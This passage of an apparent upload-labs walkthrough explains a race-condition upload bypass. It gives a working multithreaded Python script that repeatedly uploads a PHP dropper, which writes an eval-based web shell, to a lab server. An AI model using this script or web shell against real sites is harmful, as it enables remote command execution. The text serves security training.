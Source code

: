 ```php
    }else{
        $msg = '上传出错！';
    }
}
```

解题思路：

```php
这里是条件竞争，先将文件上传到服务器，然后判断文件后缀是否在白名单里，如果在则重命名，否则删除，因此我们可以上传1.php只需要在它删除之前访问即可，可以利用burp的intruder模块不断上传，然后我们不断的访问刷新该地址即可
```

Python脚本：

```python
import requests
import threading
def upload():
    url = "http://192.168.0.129/Pass-18/index.php"
    file = {"upload_file": ("18.php", "<?php fputs(fopen('shell.php','w'),'<?php @eval($_REQUEST[cmd])?>');", "image/jpeg")}
    data = {"submit": "上传"}
    geturl = "http://192.168.0.129/upload/18.php"
    while event.isSet():
        request = requests.post(url, data=data, files=file)
        result = requests.get(geturl)
        if result.status_code == 200:
            print("upload success!")
            event.clear()
if __name__ == '__main__':
    event = threading.Event()
    event.set()
    for i in range(1,20):
        threading.Thread(target=upload).start()
```

![image-20220101172150406](image/文件上传漏洞/image-20220101172150406.png)

![image-20220101172234133](image/文件上传漏洞/image-20220101172234133.png)
